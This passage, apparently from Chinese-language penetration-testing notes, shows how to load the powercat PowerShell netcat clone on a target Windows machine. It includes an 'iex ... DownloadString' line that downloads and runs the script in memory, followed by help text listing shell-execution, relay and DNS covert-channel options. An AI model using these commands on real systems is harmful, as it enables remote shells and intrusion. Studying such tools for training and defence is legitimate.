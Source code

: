 **传输到windos上进行使用。**

**采用dot-sourcing的PiwerShell特性加载Powercat.ps1脚本，**

`. .\powercat.ps1`这将使脚本中声明的所有变量和函数可以在当前powershell作用域中直接引用，而不需要每次都执行脚本

**如果目标windows机器可以出网的话，可以使用iex cmdlet 直接下载powercat.ps1**

```
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.
githubusercontent.com/besimorhino/powercat/master/powercat.ps1'
```

**注意：用dot-sourcing加载ps1脚本 只在当前POWERSHELL实例中有效，每次重启powershell时候都要重新加载**

```
PS C:\Users\13406\Desktop> powercat
You must select either client mode (-c) or listen mode (-l).
```

```
PS C:\Users\13406\Desktop> powercat -h

powercat - Netcat, The Powershell Version
Github Repository: https://github.com/besimorhino/powercat

This script attempts to implement the features of netcat in a powershell
script. It also contains extra features such as built-in relays, execute
powershell, and a dnscat2 client.

Usage: powercat [-c or -l] [-p port] [options]

  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
```